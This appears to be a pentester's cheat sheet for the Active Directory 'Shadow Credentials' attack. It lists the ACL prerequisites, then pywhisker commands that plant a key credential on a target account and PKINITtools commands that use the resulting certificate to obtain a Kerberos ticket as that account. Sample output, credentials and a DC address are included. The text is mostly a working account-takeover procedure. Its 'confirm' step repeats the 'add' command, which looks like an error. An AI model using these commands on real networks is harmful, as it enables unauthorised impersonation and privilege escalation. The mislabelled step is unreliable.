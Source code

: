 # Shadow creds
## Prerequisites
You should have write access to `msDS-KeyCredentialLink` attribute (requires at least AddKeyCredentialLink ACL) of a target object (if the target object itself is compromised, then note that by default in AD each domain computer account has a right to modify it's own `msDS-KeyCredentialLink` attribute property if it's not already present, meaning you probably can freely modify your compromised computeraccount's `msDS-KeyCredentialLink` attribute value). Useraccounts, by default, do not have this right.

## pywhisker
```bash
# generate pfx and add public cert to msDS-KeyCredentialLink of a --target (make sure to save the outputed password)
python pywhisker.py -d "$FQDN_DOMAIN" -u "$USER" -p "$PASSWORD" --target "$TARGET_SAMNAME" --action "add"
python pywhisker.py -d 'contoso.org' -u 'TestAcc' -p 'win2016-cli-P@$swd' --target 'AltAdmLocal' --action 'add'
# [+] Saved PFX (#PKCS12) certificate & key at path: 4CHGOm7F.pfx
# [*] Must be used with password: QVcxLbcT0YdVbGDXqQG5

# confirm that msDS-KeyCredentialLink is added
python pywhisker.py -d "$FQDN_DOMAIN" -u "$USER" -p "$PASSWORD" --target "$TARGET_SAMNAME" --action "add"


# use this pfx cert/key pair to request a TGT
# grep the password from `pywhisker add` command and put into -pfx-pass
gettgtpkinit $DOMAIN/$USER -cert-pfx $PFX_FILE -pfx-pass $PASSWORD_FOR_PFX -dc-ip $KDC $OUTPUT.ccache
python3 ./PKINITtools/gettgtpkinit.py contoso.org/AltAdmLocal -cert-pfx ../pywhisker/4CHGOm7F.pfx -pfx-pass QVcxLbcT0YdVbGDXqQG5 -dc-ip 192.168.68.179 AltAdmLocal.ccache
```

